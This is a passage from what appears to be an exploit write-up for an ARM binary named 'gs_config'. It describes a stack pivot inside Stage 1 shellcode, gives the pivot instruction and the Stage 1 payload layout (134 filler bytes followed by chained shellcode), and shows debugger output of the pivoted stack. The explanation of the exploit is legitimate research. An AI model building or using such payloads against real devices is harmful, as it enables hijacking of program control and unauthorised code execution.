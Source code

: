 This would be a good candidate for populating the R4-R11 registers along with PC. We do not control the content of the R4-R10 registers, however, we do control the Frame Pointer (R11) and PC (Program Counter) - therefore, it will be trivial to redirect the program flow.

The pivoting must be done in the **Stage 1** shellcode, before we return to the config sub-routine from `puts()`. A calculated pivot that will tailor the stack for our needs:

```
pivot = asm('sub sp,sp, #964;')


```

For sanity, the final payload for **Stage1** will be as follows:

```
sc = pivot + fix_regs + load_puts_got + jmp_puts
payload = b'A'*134 + sc


```

The following figure shows the moment of the POP instruction with a pivoted stack:

```
──────────────────────────────────────────────────────────── code:arm:ARM ────
  0xa56c                  bl     0x9170 <fflush@plt>
  0xa570                  b      0x9ae8
● 0xa574                  add    sp,  sp,  #596	; 0x254
 → 0xa578                  pop    {r4,  r5,  r6,  r7,  r8,  r9,  r10, r11, pc}
   ↳     0x16170                  mov    r6,  #198	; 0xc6
         0x16174                  lsl    r6,  r6,  #8
         0x16178                  add    r6,  r6,  #213	; 0xd5
         0x1617c                  lsl    r6,  r6,  #8
         0x16180                  add    r6,  r6,  #254	; 0xfe
         0x16184                  lsl    r6,  r6,  #8
───────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "gs_config", stopped 0xa578 in ?? (), reason: SINGLE STEP
─────────────────────────────────────────────────────────────────── trace ────
[#0] 0xa578 → pop {r4,  r5,  r6,  r7,  r8,  r9,  r10,  r11,  pc}
──────────────────────────────────────────────────────────────────────────────
gef➤  telescope $sp
0xceb752c8│+0x0000: 0x00000008	 ← $sp
0xceb752cc│+0x0004: 0x00000008
0xceb752d0│+0x0008: 0x00000008
0xceb752d4│+0x000c: 0x00000008
0xceb752d8│+0x0010: 0x00000008
0xceb752dc│+0x0014: 0x00000008
0xceb752e0│+0x0018: 0x00000008
0xceb752e4│+0x001c: 0xceb75430  →  0x42424242
0xceb752e8│+0x0020: 0x00016170  →  0xe3a060c6
0xceb752ec│+0x0024: 0x00000000
gef➤


```
